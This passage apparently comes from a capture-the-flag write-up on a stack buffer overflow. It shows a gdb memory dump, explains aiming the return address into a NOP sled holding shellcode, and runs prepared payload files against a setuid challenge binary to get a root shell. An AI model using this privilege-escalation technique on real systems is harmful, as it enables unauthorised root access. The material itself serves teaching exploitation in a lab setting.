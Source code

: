 ``` python

x/4x $ebp
0xffffda5c: 0x6a6a4141      0xffffd988      0x0000000f      0x00000000
```
`0xffffd988` will be the address that falls in your `NOP` sleds. 
Now everything is set up: it is divisible by 256, it redirect the return to our shell code which will enter the shell with `euid=0` and `uid=0`, which is root access. Let's see if that is actually the case.
```
user@host:/c0re$ (cat farmville.sol ; cat) | /c0re/attackme3 "$( < zerg.sol)"
[ZERG] Buffer received 20 characters!
[FARMVILLE] Spammed the walls of 236 Facebook friends!
# whoami
 root
# id
uid=0(root) gid=1030(user) groups=1030(user)
```
Great! We compromise the program and gain root access in shell! 
##overflow4
